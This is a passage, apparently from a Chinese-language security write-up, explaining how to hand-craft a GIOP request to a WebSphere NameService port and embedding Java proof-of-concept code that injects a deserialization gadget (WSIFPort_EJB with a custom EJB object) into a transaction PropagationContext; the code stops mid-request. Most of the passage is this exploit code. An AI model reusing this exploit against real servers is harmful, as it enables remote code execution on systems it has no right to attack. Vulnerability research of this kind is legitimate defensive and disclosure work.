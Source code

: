 再参照一下这个 API 是怎么发包的，先是十二个字节的 GIOP 头

[![](https://p0.ssl.qhimg.com/t0175fc89b1d80e89f4.png)](https://p0.ssl.qhimg.com/t0175fc89b1d80e89f4.png)

然后是一个固定的 4 字节 `ServiceContext` 的数目

[![](https://p1.ssl.qhimg.com/t019cc3adc9257498c3.png)](https://p1.ssl.qhimg.com/t019cc3adc9257498c3.png)

后面就是 `ServiceContext` 格式也是固定的

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013b9e7c45c29fd568.png)

写完 `ServiceContext` 后，是下面这个格式

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c2369e63687f5c49.png)

所以，大致的验证代码如下：

```
public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException `{`
    WSIFPort_EJB wsifPort_ejb = new WSIFPort_EJB(null, null, null);
    Field field = wsifPort_ejb.getClass().getDeclaredField("fieldEjbObject");
    field.setAccessible(true);
    field.set(wsifPort_ejb, new MyEJBObject());

    Socket socket = new Socket();
    InetSocketAddress inetSocketAddress = new InetSocketAddress("127.0.0.1", 2809);
    socket.connect(inetSocketAddress,0);
    socket.setKeepAlive(true);
    socket.setTcpNoDelay(true);
    OutputStream outputStream = socket.getOutputStream();
    EncoderOutputStream cdrOutputStream = (EncoderOutputStream)ORB.createCDROutputStream();
    cdrOutputStream.write_long(1195986768);
    cdrOutputStream.write_octet((byte)1);//GIOPMajor
    cdrOutputStream.write_octet((byte)0);//GIOPMinor
    cdrOutputStream.write_octet((byte)0);//flags
    cdrOutputStream.write_octet((byte)0);//type //request
    Object sizePosition = cdrOutputStream.writePlaceHolderLong((byte) 0);//size
    cdrOutputStream.write_long(1);//ServiceContext size

    CDROutputStream outputStream2 = ORB.createCDROutputStream();
    outputStream2.putEndian();
    Any any = ORB.init().create_any();
    any.insert_Value(wsifPort_ejb);
    PropagationContext propagationContext = new PropagationContext(
            0,
            new TransIdentity(null, null, new otid_t(0,0,new byte[0])),
            new TransIdentity[0],
            any
    );
    PropagationContextHelper.write(outputStream2, propagationContext);
    byte[] result = outputStream2.toByteArray();
    ServiceContext serviceContext = new ServiceContext(0, result);
    serviceContext.write(cdrOutputStream);
    int writeOffset2 = cdrOutputStream.getByteBuffer().getWriteOffset();
    System.out.println(writeOffset2);

    cdrOutputStream.write_long(6);//requestID
    cdrOutputStream.write_octet((byte)1);//responseExpeced
    ObjectKey objectKey = new ObjectKey("NameService".getBytes());
    cdrOutputStream.write_long(objectKey.length());
```